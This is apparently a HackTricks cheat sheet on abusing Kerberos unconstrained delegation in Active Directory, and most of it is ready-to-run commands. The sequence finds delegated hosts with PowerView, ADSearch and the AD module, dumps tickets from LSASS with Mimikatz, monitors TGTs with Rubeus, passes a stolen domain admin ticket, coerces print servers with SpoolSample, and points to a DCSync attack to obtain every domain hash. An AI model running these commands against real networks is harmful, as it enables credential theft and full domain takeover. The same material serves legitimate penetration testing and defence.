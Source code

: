 # Unconstrained Delegation

Discover domain computers which have unconstrained delegation\
enabled using PowerView:

```powershell
Get-NetComputer -UnConstrained
```

Using ActiveDirectory module:

```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

ADSearch

```
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

Export tickets with Mimikatz Access LSASS memory

```powershell
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way
```

Monitor logins and export new tickets

Doens't access LSASS memory directly, but uses Windows APIs

```powershell
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```

We must trick or wait for a domain admin to connect a service. Now, if the command is run again:

```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

The DA token could be reused:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgtDOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

## [**Force Authentication**](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/unconstrained-delegation.html?highlight=Uncons#force-authentication)

If an attacker is able to **compromise a computer allowed for "Unconstrained Delegation"**, he could **trick** a **Print server** to **automatically login** against it **saving a TGT** in the memory of the server.\
Then, the attacker could perform a **Pass the Ticket attack to impersonate** the user Print server computer account.

To make a print server login against any machine you can use [**SpoolSample**](https://github.com/leechristensen/SpoolSample):

bash

```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```

If the TGT if from a domain controller, you could perform a [**DCSync attack**](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html#dcsync) and obtain all the hashes from the DC.\
[**More info about this attack in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)